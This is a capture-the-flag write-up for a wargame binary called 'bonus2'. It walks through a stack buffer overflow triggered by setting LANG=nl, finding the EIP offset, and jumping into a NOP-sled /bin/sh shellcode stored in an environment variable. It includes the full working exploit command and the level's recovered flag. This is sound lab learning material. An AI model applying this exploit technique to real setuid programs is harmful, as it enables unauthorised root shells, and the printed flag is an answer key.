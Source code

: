 # bonus2

The executable does the following :

- Write 40 bytes of `av[1]` into a buffer
- Write 32 bytes of `av[2]` into buffer+40
- Use `getenv("LANG")` to get an environment variable and set the `_language` global
- Sets `s` according to language, concatenates our buffer and prints it

With no function to call or function pointer, we'll use `eip` to point to a shellcode.

## **Overwriting EIP**

We start by running the executable in `gdb` with filled args :

```
gdb --args bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```

We find something interesting : the program segfaults trying to access `0x08004242`.

We recognize our `B`'s on the last two bytes ; this means our full buffers can only overwrite two bytes of `eip`. Could we go a little further ?

We notice, by default, the program concatenates `"Hello "` with our buffer. But there are other options - *longer* options. We try setting another language with the env variable :

```
env -i LANG=nl gdb --args bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```

The program tries to access `0x42424242` ; we've managed to overwrite `eip`.

We experiment a bit and find `eip` starts at the second buffer's 24th byte. We write :

```
env -i LANG=nl gdb --args bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("A" * 23 + "\xff\xff\xff\xff")')
```

The program tries to access `0xffffffff` ; we control `eip`.

## **The shellcode**

The program runs a `memcpy` that doesn't like if we put the shellcode in our buffer ; no problem, we'll just use the `env` table again.

We add a shellcode and run the following :

```
env -i \
LANG=nl \
SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') \
gdb --args bonus2 \
$(python -c 'print("A" * 40)') \
$(python -c 'print("A" * 23 + "\xff\xff\xff\xff")')
```

We skim through the memory and find our shellcode's nopesled spans between `0xbffffdb5` and `0xbfffffb5`.

We target the midpoint, `0xbffffeb5`.

## **The command**

We run the following :

```
env -i \
LANG=nl \
SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') \
./bonus2 \
$(python -c 'print("A" * 40)') \
$(python -c 'print("A" * 23 + "\xb5\xfe\xff\xbf")')
```

## **The flag**

It works ! In the interactive shell, we run :

```
cat /home/user/bonus3/.pass
```

We get the flag for `bonus2` :

```
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
